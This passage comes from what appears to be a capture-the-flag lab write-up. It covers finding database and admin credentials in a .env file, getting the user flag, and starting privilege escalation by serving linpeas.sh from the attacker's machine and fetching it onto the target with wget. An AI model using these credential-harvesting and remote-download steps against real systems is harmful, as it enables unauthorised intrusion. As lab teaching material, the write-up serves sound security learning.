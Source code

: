 
There is a .env file that contains the user and password for the database running. It is also the password for the user admin.

![image](Screenshot_17.png)

We also got the user flag located in the home directory.

## Privilege escalation

Lets try running linpeas to see what information it can scrape. First, we set up on our machine a simple http server using python on port 5555.

```sh
python3 -m http.server 5555
```

And then we use wget on the remote machine to download it.

```sh
wget 10.10.15.1:5555/linpeas.sh
```

![image](Screenshot_18.png)

It looks like there are some e-mails present. Lets check them out.

![image](Screenshot_19.png)
